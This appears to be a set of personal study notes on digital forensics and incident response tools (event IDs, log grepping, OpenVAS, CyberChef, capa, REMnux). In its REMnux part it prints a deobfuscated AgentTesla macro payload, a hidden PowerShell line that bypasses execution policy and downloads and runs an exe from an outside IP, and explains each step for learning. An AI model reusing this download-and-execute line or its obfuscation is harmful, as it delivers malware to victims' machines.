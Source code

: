 
### Links

- https://www.autopsy.com/
- https://www.toolwar.com/2014/01/dumpit-memory-dump-tools.html
- https://volatilityfoundation.org/


### Event viewer

#### Log codes:
Event ID 	Description
4624 		A user account successfully logged in
4625 		A user account failed to login
4634 		A user account successfully logged off
4720 		A user account was created
4724 		An attempt was made to reset an account’s password
4722 		A user account was enabled
4725 		A user account was disabled
4726 		A user account was deleted

### Logs in Linux

- `cat access.log`
-`cat access1.log access2.log > combined_access.log`
-`grep "192.168.1.1" access.log`
-`less access.log`
-`grep "GET" access.log`
-`grep "POST" access.log`


# SIEM


## openVAS

### installing OpenVAS
- `sudo apt install docker.io`
- `sudo docker run -d -p 443:443 --name openvas mikesplain/openvas`


### Running Openvas
- `docker start openvas`
- navigate to https://127.0.0.1 in a browser
- log in

## CyberChef

- link to run in browser: https://gchq.github.io/CyberChef/
- link to download: https://github.com/gchq/CyberChef/releases

#### operations area:
Operations 	Description 	Examples
From Morse Code 	Translates Morse Code into (upper case) alphanumeric characters. 	- .... .-. . .- - ... becomes THREATS when used with default parameters
URL Encode 	Encodes problematic characters into percent-encoding, a format supported by URIs/URLs. 	https://tryhackme.com/r/room/cyberchefbasics becomes https%3A%2F%2Ftryhackme%2Ecom%2Fr%2Froom%2Fcyberchefbasics when used with the parameter “Encode all special chars”
To Base64 	This operation encodes raw data into an ASCII Base64 string. 	This is fun! becomes VGhpcyBpcyBmdW4h
To Hex 	Converts the input string to hexadecimal bytes separated by the specified delimiter. 	This Hex conversion is awesome! becomes 54 68 69 73 20 48 65 78 20 63 6f 6e 76 65 72 73 69 6f 6e 20 69 73 20 61 77 65 73 6f 6d 65 21
To Decimal 	Converts the input data to an ordinal integer array. 	This Decimal conversion is awesome! becomes 84 104 105 115 32 68 101 99 105 109 97 108 32 99 111 110 118 101 114 115 105 111 110 32 105 115 32 97 119 101 115 111 109 101 33
ROT13 	A simple Caesar substitution cipher which rotates alphabet characters by the specified amount (default 13). 	Digital Forensics and Incident Response becomes Qvtvgny Sberafvpf naq Vapvqrag Erfcbafr


#### Recipe Area:

Save recipe: This feature allows the user to save selected operations.
Load recipe: Allows the user to load previously saved recipes.
Clear Recipe: This feature will enable users to clear the chosen recipe during usage.


#### Input Area

- Add a new input tab: This is where an additional tab is created for the user to use different values from the previous tab.

- Open folder as input: This feature allows users to upload a whole folder as input value.

- Clear input and output: This feature allows the user to clear any input values inserted and the corresponding output value.

- Reset pane layout: This feature brings the tool's interface to its default window sizes.


#### Output Area

- Save output to file: This feature allows the users to save the result into a .dat file.

- Copy raw output to the clipboard: This feature allows users to copy raw output directly to their clipboard, allowing them to quickly copy the results for use in other applications or documents.

- Replace input with output: This feature allows users to quickly overwrite the input data based on the operations' results.

- Maximise output pane: This feature brings the tool's interface to its default window sizes.




## CAPA

to run:
- PS C:\Users\Administrator\Desktop\capa> capa.exe .\cryptbot.bin

#### Flags:

Option 	Description 	Sample Syntax

-h or --help
	Show this help message and exit.
	

capa -h
-v or --verbose 	Enable verbose result document. 	capa.exe .\cryptbot.bin -v
-vv or --vverbose 	Enable a very verbose result document. 	capa.exe .\cryptbot.bin -vv 




# REMnux

- `oledump.py agenttesla.xlsm`

	displays: `A: xl/vbaProject.bin
 A1:       468 'PROJECT'
 A2:        62 'PROJECTwm'
 A3: m     169 'VBA/Sheet1'
 A4: M     688 'VBA/ThisWorkbook'
 A5:         7 'VBA/_VBA_PROJECT'
 A6:       209 'VBA/dir'
`

- `oledump.py agenttesla.xlsm -s 4`

	displays: hex dump of file

- `oledump.py agenttesla.xlsm -s 4 -vbadecompress`

	displays: more readable format
		- `Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* *^-*W*i*n*^d*o*w^*S*t*y*^l*e* *h*i*^d*d*^e*n^* *-*e*x*^e*c*u*t*^i*o*n*pol^icy* *b*yp^^ass*;* $TempFile* *=* *[*I*O*.*P*a*t*h*]*::GetTem*pFile*Name() | Ren^ame-It^em -NewName { $_ -replace 'tmp$', 'exe' }  Pass*Thru; In^vo*ke-We^bRe*quest -U^ri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -Out*File $TempFile; St*art-Proce*ss $TempFile;"
Sqtnew = Replace(Sqtnew, "*", "")
Sqtnew = Replace(Sqtnew, "^", "")`


``"powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' }  PassThru; Invoke-WebRequest -Uri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -OutFile $TempFile; Start-Process $TempFile;"``

So, in PowerShell, running the -WindowStyle parameter allows you to control how the PowerShell window appears when executing a script or command. In this case, hidden means that the PowerShell window won’t be visible to the user.
    By default, PowerShell restricts script execution for security reasons. The -executionpolicy parameter allows you to override this policy. The bypass means that the execution policy is temporarily ignored, allowing any script to run without restriction.
    The Invoke-WebRequest is commonly used for downloading files from the internet.
        The -Uri Specifies the URL of the web resource you want to retrieve. In our case, the script is downloading the resource Doc-3737122pdf.exe from http://193.203.203.67/rt/.
        The -OutFile specifies the local file where the downloaded content will be saved.  In this case, the Doc-3737122pdf.exe will be saved to $TempFile.
    The Start-Process is used to execute the downloaded file that is stored in $TempFile after the web request.

To summarize, when the document agenttesla.xlsm is opened, a Macro will run! This Macro contains a VBA script. The script will run and will be running a PowerShell to download a file named Doc-3737122pdf.exe from http://193.203.203.67/rt/, save it to a variable $TempFile, then execute or start running the file inside this variable, which is a binary or a .exe file (Doc-3737122pdf.exe). This is a usual technique used by threat actors to avoid early detection. Pretty nasty, right?!